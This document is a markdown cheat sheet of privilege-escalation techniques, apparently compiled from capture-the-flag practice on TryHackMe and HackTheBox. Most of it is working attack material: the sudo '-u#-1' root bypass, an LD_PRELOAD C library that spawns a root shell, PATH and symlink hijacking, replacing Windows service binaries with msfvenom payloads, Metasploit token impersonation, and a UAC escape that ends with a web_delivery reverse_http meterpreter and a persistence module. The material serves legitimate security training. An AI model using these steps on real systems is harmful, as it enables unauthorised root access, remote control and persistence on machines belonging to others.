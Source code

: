 # Privesc (not including gtfobins stuff)

A quick cheat sheet on privesc I have found while playing thm/htb etc.

## Sudo version 1.8.27 

```sudo -u#-1 /bin/bash```

## Check History

Check if user typed passwords etc to terminal
```cat ~/.*history | less ```


## lxd (group)

Upload alpine image and script. Run the script to get root.

## Path hijacking

```
cd /tmp <any writable directory>

echo '/bin/bash' > <command with sudo priv>
set PATH=/tmp:PATH

run command
```

## symbolic links

```ln -sf``` links a script that runs with root permissions to our script.

## Cronjobs

Either replce script if can, symbolically link etc.

## LD_PRELOAD

Compile 

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
   unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
   system("/bin/bash -p");
}
```

with

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

run

```
sudo LD_PRELOAD=/home/rober/shell.so <command that can be ran as root>
```

## Polkit

Run polkit.py and leave.

## Basic Windows

### Replace running Services

Find service that is running as nt/system and replace with msfvenom binary to gain a priv shell.

example message.exe is a windows bin running with root permission. shell.exe is a msfvenom binary. 

```
mv Message.exe Message.bak
mv shell.exe Message.exe
bg
run multi/handler again
```

or stopping a service replacing with msfvenom binary and restarting the service (remember windows checks file paths for service in a set order)

```
Stop-Service AdvancedSystemCareService9
Copy-Item -Path 'C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\ven.exe' -Destination 'C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe'
Start-Service AdvancedSystemCareService9
```

### Impersonating

Common to impersonate
```
    - SeImpersonatePrivilege
    - SeAssignPrimaryPrivilege
    - SeTcbPrivilege
    - SeBackupPrivilege
    - SeRestorePrivilege
    - SeCreateTokenPrivilege
    - SeLoadDriverPrivilege
    - SeTakeOwnershipPrivilege
    - SeDebugPrivilege
```

In msf
```
load incognito
list_tokens -g 
impersonate_token <token name>
```

### Metepreter system

```get system```

or if UAC enabled

```use windows/local/bypassuac```


### UAC abuse

1) find a program that can trigger the UAC prompt screen
2) select "Show more details"
3) select "Show information about the publisher's certificate"
4) click on the "Issued by" URL link it will prompt a browser interface.
5) wait for the site to be fully loaded & select "save as" to prompt a explorer window for "save as".
6) on the explorer window address path, enter the cmd.exe full path: C:\WINDOWS\system32\cmd.exe
7) now you'll have an escalated privileges command prompt. 
8) Open metaspoit
9) Run multi/script/web_delivery
10) Set target to PSH
11) Set set payload windows/meterpreter/reverse_http
12) run -j
13) Copy command into cmd shell.
14) bg
15) run windows/local/persistence for persistence


